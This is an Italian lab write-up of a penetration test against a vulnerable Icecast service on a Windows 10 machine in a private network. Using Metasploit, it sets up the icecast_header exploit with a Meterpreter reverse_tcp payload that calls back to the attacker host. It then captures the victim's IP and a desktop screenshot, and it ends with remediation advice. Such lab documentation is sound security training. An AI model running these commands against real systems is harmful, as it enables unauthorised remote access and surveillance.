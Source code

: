 
# 🔐 **Penetration Test con Metasploit e Icecast su Windows 10**

## 🚀 Introduzione
In questo progetto abbiamo condotto un test di penetrazione su una macchina **Windows 10** con il servizio **Icecast** vulnerabile. Utilizzando il framework **Metasploit** su **Kali Linux**, siamo riusciti a ottenere una sessione **Meterpreter**, visualizzare l’indirizzo IP della vittima e catturare uno screenshot del desktop compromesso.

---

## 🎯 Obiettivi
- 🔍 Identificare la macchina vittima (con Icecast vulnerabile).
- ⚙️ Sfruttare la vulnerabilità per ottenere una shell Meterpreter.
- 📡 Visualizzare l’indirizzo IP della vittima dalla sessione Meterpreter.
- 📸 Catturare uno screenshot del desktop della macchina vittima.

---

## 🌐 Ambiente di Lavoro
- **Attaccante (Kali Linux)**: IP `192.168.1.150`
- **Vittima (Windows 10 con Icecast)**: IP `192.168.1.153`
- **Rete**: 192.168.1.0/24

---

## 📜 Passi Seguiti

### 1️⃣ **Scansione della Rete e Identificazione della Vittima**
Abbiamo innanzitutto identificato la macchina vittima nella rete locale con:
```bash
sudo arp-scan --localnet
```
Una volta trovato l’IP della vittima (`192.168.1.153`), abbiamo verificato la porta di default di Icecast (8000):
```bash
nmap -p 8000 192.168.1.153
```

**📸 Screenshot:**  
![nmap](./NMapclose.png)

---

### 2️⃣ **Avvio di Icecast sulla Vittima e Verifica**
Sulla macchina Windows 10 abbiamo:
- Avviato **Icecast**.
- Disattivato temporaneamente il firewall o creato una regola di eccezione per la porta 8000.

Quindi, verificando dal browser:
```
http://192.168.1.153:8000
```
Abbiamo ottenuto una risposta, confermando che Icecast era attivo e rispondeva alle richieste.

**📸 Screenshot:**  
_(Inserire screenshot del browser che mostra la risposta di Icecast)_

---

### 3️⃣ **Verifica Porta 8000 Aperta**
Nuovamente con nmap:
```bash
nmap -p 8000 192.168.1.153
```
Ora la porta 8000 risultava **open**, confermando che Icecast era accessibile dalla nostra macchina Kali.

**📸 Screenshot:**  
_(Inserire screenshot della scansione nmap con la porta aperta)_

---

### 4️⃣ **Sfruttamento della Vulnerabilità con Metasploit**
Abbiamo avviato Metasploit:
```bash
msfconsole
```
Configurato l’exploit per Icecast:
```bash
use exploit/windows/http/icecast_header
set RHOSTS 192.168.1.153
set RPORT 8000
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.150
set LPORT 4444
exploit
```

**📸 Screenshot del primo tentativo fallito:**  
_(Inserire screenshot del tentativo fallito)_  

**📸 Screenshot della sessione Meterpreter ottenuta:**  
_(Inserire screenshot della sessione Meterpreter avviata con successo)_  

---

### 5️⃣ **Interazione con la Sessione Meterpreter**
Una volta ottenuta la sessione Meterpreter:
- **Visualizzazione dell’indirizzo IP della vittima**:
  ```bash
  meterpreter > ipconfig
  ```
  Questo comando ha mostrato le interfacce di rete e gli indirizzi IP della macchina vittima.

**📸 Screenshot:**  
_(Inserire screenshot del comando ipconfig eseguito su Meterpreter)_  

- **Cattura di uno screenshot del desktop remoto**:
  ```bash
  meterpreter > screenshot
  ```
  Lo screenshot è stato salvato sulla macchina Kali (ad esempio `/home/kali/OquUbpix.jpeg`).

Per visualizzare l’immagine su Kali:
```bash
xdg-open /home/kali/OquUbpix.jpeg
```

**📸 Screenshot del comando screenshot:**  
_(Inserire screenshot del comando screenshot eseguito con successo)_  

**📸 Visualizzazione dello screenshot:**  
_(Inserire screenshot dell’immagine visualizzata su Kali)_  

---

## 🔒 Post-Exploitation & Considerazioni
Dopo aver raggiunto gli obiettivi, abbiamo:
- Chiuso la sessione Meterpreter:
  ```bash
  meterpreter > exit
  ```
- Riattivato il firewall sulla macchina vittima.
- Proposto di aggiornare Icecast all’ultima versione per correggere la vulnerabilità sfruttata.
- Suggerito di implementare regole IDS/IPS e segmentazione di rete per limitare futuri attacchi.

---

## 📝 Conclusioni
Questo test ha dimostrato come una vulnerabilità in un servizio (Icecast) possa fornire a un attaccante l’accesso remoto a una macchina Windows. Con Metasploit siamo riusciti a:
- Identificare la macchina vulnerabile.
- Avviare un exploit contro Icecast.
- Ottenere una shell Meterpreter.
- Visualizzare l’indirizzo IP della vittima.
- Catturare uno screenshot del desktop remoto.

---

## 📂 Allegati
Nella cartella [`/screenshots`](./screenshots/) sono presenti:
- **nmap_scan.png**: Scansione porta 8000 (chiusa).
- **icecast_browser.png**: Risposta dal browser dopo l’avvio di Icecast.
- **nmap_port_open.png**: Scansione porta 8000 (aperta).
- **exploit_failed.png**: Tentativo fallito di exploit.
- **meterpreter_session.png**: Sessione Meterpreter ottenuta.
- **ipconfig_meterpreter.png**: Output del comando ipconfig.
- **screenshot_command.png**: Comando screenshot.
- **screenshot_view.png**: Visualizzazione dello screenshot catturato.

Tutte le immagini completano visivamente il processo descritto.
